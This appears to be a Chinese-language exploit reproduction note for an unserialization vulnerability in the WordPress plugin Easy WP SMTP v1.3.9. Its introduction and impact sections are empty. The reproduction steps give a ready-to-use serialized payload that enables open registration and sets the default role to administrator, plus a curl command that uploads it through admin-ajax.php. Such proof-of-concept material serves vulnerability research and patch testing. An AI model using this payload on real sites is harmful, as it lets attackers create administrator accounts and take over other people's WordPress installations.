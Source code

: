 ```yaml
---
title: WordPress Plugin - Easy WP SMTP 反序列化漏洞
id: zhfly3242
---
```


# WordPress Plugin - Easy WP SMTP 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp_import_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：

```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";} 
```

2.上传文件

```
$ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt' 
```

![image](../img/b1822b5fa492820e2296e5ce0881fc64.png)